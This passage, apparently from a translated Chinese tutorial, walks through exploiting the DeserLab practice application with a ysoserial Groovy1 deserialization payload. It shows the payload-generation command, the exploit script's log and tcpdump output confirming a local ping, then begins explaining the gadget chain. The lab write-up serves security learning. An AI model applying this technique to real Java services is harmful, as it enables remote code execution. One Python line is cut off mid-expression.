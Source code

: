 ```
java -jar ysoserial-master-v0.0.4-g35bce8f-67.jar Groovy1 'ping 127.0.0.1' &gt; payload.bin
```

需要注意的是，载荷发送后不会返回任何响应，因此如果我们想确认载荷是否工作正常，我们需要一些方法来检测。在实验环境中，一个ping localhost命令足以，但在实际环境中，我们需要找到更好的方式。

现在万事俱备，是不是只需要发送载荷就可以大功告成？差不多是这个样子，但我们不要忘了Java序列化头部交换过程在这之前已经完成，这意味着我们需要剔除载荷头部的前4个字节，然后再发送载荷：



```
./deserlab_exploit.py 127.0.0.1 6666 payload_ping_localhost.bin 
2017-09-07 22:58:05,401 - INFO - Connecting
2017-09-07 22:58:05,401 - INFO - java serialization handshake
2017-09-07 22:58:05,403 - INFO - protocol specific handshake
2017-09-07 22:58:05,492 - INFO - protocol specific version handshake
2017-09-07 22:58:05,571 - INFO - sending name of connected client
2017-09-07 22:58:05,571 - INFO - exploiting
```

如果一切顺利的话，你可以看到如下输出：



```
sudo tcpdump -i lo icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on lo, link-type EN10MB (Ethernet), capture size 262144 bytes
22:58:06.215178 IP localhost &gt; localhost: ICMP echo request, id 31636, seq 1, length 64
22:58:06.215187 IP localhost &gt; localhost: ICMP echo reply, id 31636, seq 1, length 64
22:58:07.215374 IP localhost &gt; localhost: ICMP echo request, id 31636, seq 2, length 64
```

非常好，我们成功利用了DeserLab的漏洞。接下来我们需要好好理解一下我们发往DeserLab的载荷的具体内容。

**<br>**

**三、手动构建载荷**

想要理解载荷的工作原理，最好的方法就是自己手动重建一模一样的载荷，也就是说，我们需要写Java代码。问题是，我们需要从何处开始？正如我们前面对pcap的分析一样，我们可以观察一下序列化载荷。使用如下这条命令，我们可以将载荷转换为十六进制字符串，然后我们就可以使用SerializationDumper来分析这个字符串，当然如果你喜欢的话，你也可以使用jdeserialize来分析文件。

```
open('payload.bin','rb').read().encode('hex
```

现在我们可以深入分析一下，理解具体的工作过程。话说回来，当理清这些问题后，你可能会找到另一篇文章详细介绍了整个过程，所以如果愿意的话，你可以跳过 这部分内容，直接阅读这篇[文章](https://www.sourceclear.com/registry/security/remote-code-execution-through-object-deserialization/java/sid-1710/technical)。接下来的文章着重介绍了我所使用的方法。在我使用的方法中，非常重要的一点就是阅读ysoserial中关于这个漏洞利用部分的源码。我不想重复提及这一点，如果你纳闷我怎么找到具体的工作流程，我会让你去阅读ysoserial的实现代码。

将载荷传给工具处理后，这两个工具都会生成非常长的输出信息，包含各种Java类代码。其中我们主要关注的类是输出信息中的第一个类，名为“sun.reflect.annotation.AnnotationInvocationHandler”。这个类看起来非常眼熟，因为它是许多反序列利用代码的入口点。我还注意到其他一些信息，包括“java.lang.reflect.Proxy”、“org.codehaus.groovy.runtime.ConvertedClosure”以及“org.codehaus.groovy.runtime.MethodClosure”。这些类之所以引起我的注意，原因在于它们引用了我们用来利用漏洞的程序库，此外，网上关于Java反序列化漏洞利用的文章中也提到过这些类，我在ysoserial源码中也见过这些类。

我们需要注意一个重要概念，那就是当你在执行反序列化攻击操作时，你发送的实际上是某个对象的“已保存的”状态。也就是说，你完全依赖于接收端的行为模式，更具体地说，你依赖于接收端在反序列化你发送的“已保存的”状态时所执行的具体操作。如果另一端没有调用你所发送的对象中的任何方法，你就无法达到远程代码执行目的。这意味着你唯一能改变的只是操作对象的属性信息。

理清这些概念后我们可知，如果我们想获得代码执行效果，我们所发送的第一个类中的某个方法需要被自动调用，这也解释了为什么第一个类的地位如此重要。如果我们观察[AnnotationInvocationHandler](http://grepcode.com/file/repository.grepcode.com/java/root/jdk/openjdk/6-b27/sun/reflect/annotation/AnnotationInvocationHandler.java)的代码，我们可以看到其构造函数接受一个java.util.map对象，且readObject方法会调用Map对象上的一个方法。如果你阅读过其他文章，那么你就会知道，当数据流被反序列化时会自动调用readObject方法。基于这些信息，再从其他文章来源借鉴部分代码，我们就可以着手构建自己的漏洞利用代码，如下所示。如果你想理解代码内容，你可以先参考一下Java中的[反射（reflection）](https://stackoverflow.com/questions/37628/what-is-reflection-and-why-is-it-useful)机制。
